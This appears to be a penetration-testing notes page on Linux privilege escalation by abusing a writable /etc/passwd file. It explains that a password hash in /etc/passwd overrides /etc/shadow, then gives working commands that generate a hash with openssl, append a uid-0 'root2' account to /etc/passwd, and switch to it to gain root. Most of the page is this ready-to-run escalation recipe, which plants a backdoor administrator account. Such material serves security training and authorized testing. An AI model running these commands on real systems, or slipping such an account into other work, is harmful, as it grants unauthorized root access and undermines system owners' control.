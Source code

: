 # Password Authentication Abuse

Unless a centralised credential system is set up such as AD or LDAP, linux passwords are stored in `/etc/shadow`

For backwards compatibility, if a password hash is present in the second column of an `/etc/passwd` user record, it is considered valid for authentication and it takes precedence over the respective entry in `/etc/shadow`. So we can abuse a writable `etc/passwd` file.



<figure><img src="../../../.gitbook/assets/Linux Privilege Escalation-3.png" alt=""><figcaption></figcaption></figure>

Generate a password hash using:

```
openssl passwd w00t
```

```
echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd
```

```
su root2
Password:w00t
```

Now we are root.

Note the 0s for uid and gid.
